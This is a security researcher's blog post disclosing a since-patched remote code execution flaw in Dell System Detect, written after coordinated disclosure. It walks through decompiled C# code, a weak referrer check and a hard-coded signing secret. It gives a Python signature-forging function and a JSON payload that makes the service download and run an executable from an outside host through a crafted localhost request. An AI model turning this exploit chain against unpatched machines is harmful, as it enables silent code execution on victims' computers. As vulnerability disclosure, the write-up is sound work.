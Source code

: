 ```yaml
---
layout: single
title: "Dell System Detect RCE vulnerability"
date: 2015-03-23 15:16:10.058935
permalink: /dell-system-detect-rce-vulnerability
categories:
   - security
---
```


I recently discovered a serious flaw with Dell System Detect that allowed an attacker to trigger the program to download and execute an arbitrary file without any user interaction. Below is a summary of the issue and the steps taken to bypass the protections Dell put in place.

*Timeline:*

The issue was fixed within two months and Dell were clear in their communications throughout.

   * 11/11/2014 - Contacted Dell about the issue and received an acknowledgement
   * 14/11/2014 - Received confirmation that Dells Internal Assessment team is investigating
   * 9/1/2015 - Dell state that they have fixed the issue by introducing additional validation and obfuscation
   * 10/1/2015 - Checked patched program and could not reproduce this exploit
   * 23/3/2015 - This post is published

### Summary
Anyone who has owned a Dell will be familiar with the [Dell Support page](http://www.dell.com/support/). You can get all the latest drivers for your exact machine configuration from this site by entering your Dell Service Tag, which can be found on a sticker somewhere on your machine or through clicking the shiny blue "Detect Product" button.

![](./2014-12-15_20_57_40-_HR3AJAFL.png)

Clicking this button prompts you to download and install the "Dell System Detect" program, which is used to auto fill the service tag input and show you the relevant drivers for your machine.

While investigating this rather innocuous looking program I discovered that it accepts commands by listening for HTTP requests on *localhost:8884* and that the security restrictions Dell put in place are easily bypassed, meaning an attacker could trigger the program to download and install any arbitrary executable from a remote location with no user interaction at all.

### The interesting bit
If you click the button you are prompted to download and install the "Dell System Detect" program which conspicuously sits in your taskbar and starts itself with your machine. So this program is clearly part of the process of autodetecting the service tag, but how does the browser page communicate with it? You can use Chrome's excellent developer tools to view the network traffic of the page and see that it makes several requests to a service listening on localhost port 8884:

![](./http_connect_U47J6VNA.png)

Ok, so it seems that the Dell System Detect runs a HTTP server that listens for requests, which are sent from the Dell Support page's JavaScript. So let's take a closer look at the program - it's a .NET 2.0 executable and can be completely decompiled with [dotPeek](https://www.jetbrains.com/decompiler/) into a set of Visual Studio solutions. A quick search through the code for "http" brings us to *eSupport.Common.Client.Service.RequestHandlers.ProcessRequest* which is responsible for processing a request through the processes HTTP port. Below is an abbreviated snippet showing how this function authenticates that requests come from a valid Dell domain:

```csharp
public void ProcessRequest(HttpListenerContext context)
{
    String url = "";
    if (context.Request.UrlReferrer == null) url = context.Request.Headers["Origin"];
    else url = context.Request.UrlReferrer.AbsoluteUri;

    if (absoluteUri.Contains("dell"))
    {
        if (context.Request.HttpMethod == "GET")
          this.HandleGet(context);
        else if (context.Request.HttpMethod == "POST")
          this.HandlePost(context);
        ...
    }
}
```

So that's our first issue: the program attempts to verify that the request is sent from a Dell domain by only checking if "dell" is in either the HTTP Referrer or Origin headers. Why is this a problem? **The HTTP Referrer can contain the *full* request URI** including the host and path. This means an attacker could easily make a request with an origin of "http://hacker.com/dell" and this would pass the initial test as "dell" is in the string. 

Armed with this information we can make requests to the program that are at least partially processed. Inside each of the method handlers (*HandleGet*, *HandlePost*) there is a fair bit of messy code, but below is a simplified version:

```csharp
private void HandleGet(HttpListenerContext context)
{
  string[] urlParts = context.Request.Url.AbsolutePath.Split('/');
  MethodInfo method = FindService(urlParts[0]), urlParts[1]);

  string signature = context.Request.QueryString["signature"];
  string str3 = context.Request.QueryString["expires"];
  bool verified = new AuthenticationHandler().Authenticate(urlParts[0], urlParts[1], str3, signature);
  if (!verified) return Error()

  var result = method.Invoke(GetParameters(context.Request));
  return MakeResponse(result);
}
```

This function splits the request URL by the slash and uses the first two components to find the correct service to execute. In the Chrome screenshot above we see that the web page is making a request to **clientservice/isalive**, which means the program will execute the **isalive** method in the **clientservice** service.

After the service has been found it inspects two query string parameters, *signature* and *expires*, and passes them to the *Authenticate* method. If this passes then the service is invoked with other query string parameters as arguments.

It seems obvious by now that the program does a little bit more than simply retrieve your service tag, so before we look into the *Authenticate* method let's see what interesting things we can do.

### Services
There are three services that can be used: **diagnosticservice**, **downloadservice** and **clientservice**. Within these are 25 methods, including *getservicetag*, *getdevices*, *getsysteminfo*, *checkadminrights* and *downloadfiles*. It seems that the entire Dell system support package is included with System Detect, meaning if we can bypass the authentication then we can trigger any of these methods.

The most interesting method is called **downloadandautoinstall**, which does exactly what it says on the tin.

```csharp
[ServiceName("downloadservice")]
public class DownloadServiceLogic
{
    [RemoteMethodName("downloadandautoinstall")]
    public static ServiceResponse DownloadAndAutoInstall(string files)
    {
        // Download and execute URL's passed in the files parameter without prompting the user
    }
}
```

If we can bypass the *Authenticate* method then we can trigger this function which will download and execute whatever file we tell it to by making a request to **http://localhost:8884/downloadservice/downloadandautoinstall**. So lets take a look at the authenticate method which is the only thing stopping us:

```csharp
public bool Authenticate(string service, string method, string expiration, string signature)
{
    var secret = string.Format("{0}_{1}_{2}_{3}", service, method, expiration, "37d42206-2f68-48be-a09a-9f9b6424ad85");
    var hash = new SHA256Managed().ComputeHash(Encoding.UTF8.GetBytes(secret));

    string stringToEscape = Convert.ToBase64String(hash).TrimEnd('=');
    bool flag = stringToEscape.ToLower() == signature.ToLower() || Uri.EscapeDataString(stringToEscape).ToLower() == signature.ToLower();
    if (!flag)
        ErrorLog.WriteLog("Not authenticated");
    return flag;
}
```

Wow. Ok, so not exactly the hardest thing to break. The service, method, expiration and signature arguments are all attacker controlled and passed through GET arguments. The only thing not controlled by a remote attacker is the hard-coded GUID *"2f68-48be-a09a-9f9b6424ad85"*.

Essentially all the function does is create a string with the arguments and the GUID then compare it with the one the user has given, and if it is a match the user is 'authenticated'. With this information in hand we can create a simple Python function to generate a valid signature:

```python
def make_signature(service, method):
    expiration = int(time.time()) + 400000

    secret_string = "{}_{}_{}_{}".format(
        service, method, expiration, "37d42206-2f68-48be-a09a-9f9b6424ad85"
    )

    hashed = hashlib.sha256(unicode(secret_string, "utf-8"))
    print("Secret: {}".format(secret_string))
    print("Hash: {}".format(hashed.hexdigest()))
    return expiration, base64.encodestring(hashed.digest()).rstrip(b"\n").rstrip(b"=")
```

If we can generate a valid token then we can trigger the "downloadandautoinstall" method with our arbitrary file by causing the user to make a GET request, which is very very easy to do. A simple way would be to embed an image in a web page with the source set to "http://localhost:8884/downloadservice/downloadandautoinstall" with the appropriate GET arguments. After some investigation it seems that the DownloadAutoInstall method needs a list of JSON strings containing information about files to download and install. Sending a JSON object like the following with a valid signature will trigger a download:

```python
{
    "Name": "messbox.exe",
    "InstallOrder": 1,
    "IsDownload": True,
    "IsAutoInstall": True,
    "Location": "http://www.greyhathacker.net/tools/messbox.exe"
}
```


### Conclusion
So in conclusion we can make anyone running this software download and install an arbitrary file by triggering their web browser to make a request to a crafted *localhost* URL. This can be achieved a number of ways, and the service will faithfully download and execute our payload without prompting the user.

I don't think Dell should be including all this functionality in such a simple tool and should have ensured adequate protection against malicious inputs. After contacting Dell and discussing the issue with their internal security team they pushed out a fix that included obfuscating the downloaded binary. While I cannot be sure I think they simply changed the conditional from "if dell in referrer" to "if dell in referrer domain name", which may be slightly harder to exploit but just as severe. There is now also a big agreement you have to accept before downloading that specifies what the software can do.

    